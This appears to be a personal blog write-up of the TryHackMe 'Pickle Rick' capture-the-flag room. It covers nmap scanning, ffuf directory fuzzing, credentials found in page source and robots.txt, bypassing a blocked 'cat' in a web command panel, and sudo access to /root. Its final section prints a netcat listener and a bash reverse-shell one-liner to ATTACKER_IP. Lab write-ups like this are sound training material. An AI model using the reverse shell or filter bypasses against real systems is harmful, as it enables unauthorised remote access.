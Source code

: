 ```yaml
---
layout: post
title: Pickle Rick Challenge
date: 2025-06-20 23:47 +0300
categories: [Challenge,THM]
tags: [Challenge,THM, write-up]
---
```


# Pickle Rick Challenge
link: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.


Let's start:\
the ip of my Target Machine is: `10.10.54.36` (yours will be different).

so let's start with a [NMAP] scan:
`nmap -sS -sV -O -v 10.10.54.36`

Explanation:
- -sS - SYN scan is the default and most popular scan option, It can be performed quickly, It is also relatively unobtrusive and stealthy since it never completes TCP connections
- -sV - Enables version detection
- -O - Enables OS detection
- -v - Increases the verbosity level, causing Nmap to print more information about the scan in progress.

Result:
![scan](https://i.imgur.com/QXAEZGa.png)

As we can see from the scan

Open Ports:
```terminal
22/tcp ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

OS:
`OS details: Linux 4.15`

So with 80 port open let's open a browser and go to `10.10.54.36:80` 
![first look](https://i.imgur.com/w29lBzP.jpeg)

First let's check if there is something hidden in the html by opening dev-tools:

![https://i.imgur.com/hUtARqY.png](https://i.imgur.com/hUtARqY.png)
There is a comment in the html giving us a username:
`Username: *********`

Now that we have a user we need to find a password (maybe crack it or brut-force it?) and something to login to.

Let's check if there is more routes for `http://10.10.54.36:80/`, im useing [ffuf]:
`ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.54.36:80/FUZZ`

Explanation:
- -w - a word list
- -u - Target URL

ffuf will go through the words in the word list and use them where the `FUZZ` is, and print successful requests.

Result:
![ffuf](https://i.imgur.com/vBhDtFA.png)
(some alternative tools: gobuster, dirb)


As we can see we have new leads:
```terminal
/assets (200 OK)                  
/.hta (403 Forbidden)                  
/.htaccess (403 Forbidden)              
/.htpasswd (403 Forbidden)               
/index.html (200 OK)              
/robots.txt (200 OK)             
/server-status (403 Forbidden)
```
\
Let's check out `/robots.txt`:
![robots.txt](https://i.imgur.com/RZ8L7iv.png)
So in the [robots.txt] we got `****************` but we still not sure what to use it for and where....
maybe it's a password?

After trying to use this to connect to the [SSH] with: `ssh R1ckRul3s@10.10.54.36` I can see that the SSH is configured to use keys instead of passwords.

We also see that `/assets` is open let's go there:
![assets](https://i.imgur.com/t4h9apQ.png)

We can see a list of files
checking those file data using [hex editor] did not yeeld any new leads
also there was no [Steganography] in those pictures.

If those pictures are here, there must be a use for them (like `rickandmorty.jpeg` we see at the index) and one of them is a hint for a hidden route ffuf didnt found: `/portal.php` that redirect us to `login.php` 

![portal](https://i.imgur.com/sKf37e7.png)

Let's try the username and the string we found in the robots.txt
```
Username: *********
Password: ****************
```

And we are in :D !!!
![command panel](https://i.imgur.com/IhkUzDf.png)

We get a command panel that let us run command in the machine
also can see multiple tabs in the Rick Portal, but when we try to go to them we get denied...

Let's try to see what around us with `ls`:
```terminal
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
We can see all the files in this folder and there it is the first flag `Sup3rS3cretPickl3Ingred.txt`!

Let's print it with `cat Sup3rS3cretPickl3Ingred.txt`

But not so fast seems like that command is disabled!
![fail](https://i.imgur.com/CuyBThz.png)

Let's try to print it using other methods:

```
head Sup3rS3cretPickl3Ingred.txt - disabled
tail Sup3rS3cretPickl3Ingred.txt - disabled
more Sup3rS3cretPickl3Ingred.txt - disabled
less Sup3rS3cretPickl3Ingred.txt - success!!
------------
some more fun ways:
awk '{ print }' Sup3rS3cretPickl3Ingred.txt
sed '' Sup3rS3cretPickl3Ingred.txt
grep -m1 "" Sup3rS3cretPickl3Ingred.txt
cut -c1- Sup3rS3cretPickl3Ingred.txt
nl Sup3rS3cretPickl3Ingred.txt
```

🚩**~And we got the first flag (What is the first ingredient that Rick needs?)~**🚩

Also we see a file name `clue.txt` let see what clue we got:
```terminal
$> sed '' clue.txt

Look around the file system for the other ingredient.
```
So we now the rest of the ingredient (flags) are around the system

After looking around using `ls /...` we found the second ingredient in `/home/rick/` 
```terminal
$> ls /home/rick/
second ingredients
```

And using `less '/home/rick/second ingredients'` 

🚩**~we got the second flag (What is the second ingredient in Rick’s potion?)~**🚩

After looking around more the only place left to look at is `/root/` but we dont have the permissions to go in....

Let's give `sudo` a try: 
```terminal
$> sudo ls /root/
3rd.txt
snap
```
And it worked we have here the third flag!!

`sudo less /root/3rd.txt`

🚩**~we got the third flag (What is the last and final ingredient?)~**🚩

And that's it we helped Rick make his potion and transform himself back into a human from a pickle.


## Alternative way to solve the challenge

After getting into Rick Portal we can generate a [reverse shell] to make our life easer using our own shell:


In our machne let's create a listener using:
`nc -lvnp PORT`

And now let's send the [reverse shell] to the server

`bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'`

And we get a [reverse shell] to the machine that mean we don't have and limitations from the Rick Portal
```
/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
🚩~first flag~🚩

/var/www/html$ cat '/home/rick/second ingredients'
🚩~second flag~🚩

/var/www/html$ sudo cat /root/3rd.txt
🚩~third flag~🚩
```

\
Hope this was helpful and fun for you to read :)\
Shai Shaked.